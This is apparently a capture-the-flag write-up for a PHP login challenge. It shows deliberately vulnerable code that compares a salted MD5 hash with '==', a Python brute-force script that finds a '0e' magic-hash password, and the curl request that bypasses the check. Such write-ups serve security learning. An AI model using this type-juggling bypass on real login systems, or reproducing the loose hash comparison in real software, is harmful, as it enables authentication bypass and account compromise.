# COMPARE THE PAIR [MODERATE]

## Description

> Can you identify a way to bypass our login logic? MD5 is supposed to be a one-way function right?

## Source Code

![source.png](img/source.png)

<details><summary>Click here for source code in text format</summary>

```php
<?php
  require_once('flag.php');
  $password_hash = "0e902564435691274142490923013038";
  $salt = "f789bbc328a3d1a3";
  if(isset($_GET['password']) && md5($salt . $_GET['password']) == $password_hash){
    echo $flag;
  }
  echo highlight_file(__FILE__, true);
>?
```

</details>

## Short Solution Description / Tags

PHP Type Juggling, Comparison with 0e password hash

## Solution

The comparison with `md5($salt . $_GET['password'])` and `$password_hash` is used by `==` so it's Type Juggling.
In PHP, 0e123456789 is 0 to the 123456789th power.
This is evaluated as 0 because 0 raised to any power is 0.
Thus, when comparison with `==`, the `$password_hash` that starts with `0e` is evaluated as 0.

If I could find a password that `md5($salt . $_GET['password'])` starts with `0e`, I can bypass the if condition and get the flag.

Tested for Type Juggling in PHP Console:

```php
php > echo 0e123456789;
0
php > $password_hash = "0e902564435691274142490923013038";
php > var_dump("0e123456789" == $password_hash);
bool(true)
```

Brute force until I found md5 hash that starts with `0e`.

solver.py

```python
import hashlib
import string
from itertools import product


def main():
    salt = "f789bbc328a3d1a3"
    possible = string.digits + string.ascii_letters + string.punctuation

    for i in range(99):
        for password in product(possible, repeat=i):
            password = "".join(password)
            salt_password = salt + password

            m = hashlib.md5()
            m.update(salt_password.encode())
            hash = m.hexdigest()

            print(salt_password, end="\r", flush=True)

            if hash[:2] == "0e" and hash[2:].isdigit():
                print(f"{password=}, {hash=}")
                return


if __name__ == "__main__":
    main()
```

Result:

```console
$ python3 solver.py
password='08*v.', hash='0e680951791073325027926177216355'

$ curl -s https://aea0de9234f750fa.247ctf.com/ -G --data-urlencode 'password=08*v.' | grep -oE '247CTF{.*}'
247CTF{[REDACTED]}
```

## References

- [PHP: Type Juggling - Manual](https://www.php.net/manual/en/language.types.type-juggling.php)
- [PHP: Strings - Manual](https://www.php.net/manual/en/language.types.string.php#123393)
- [Type Juggling - Payloads All The Things](https://swisskyrepo.github.io/PayloadsAllTheThings/Type%20Juggling/#magic-hashes)
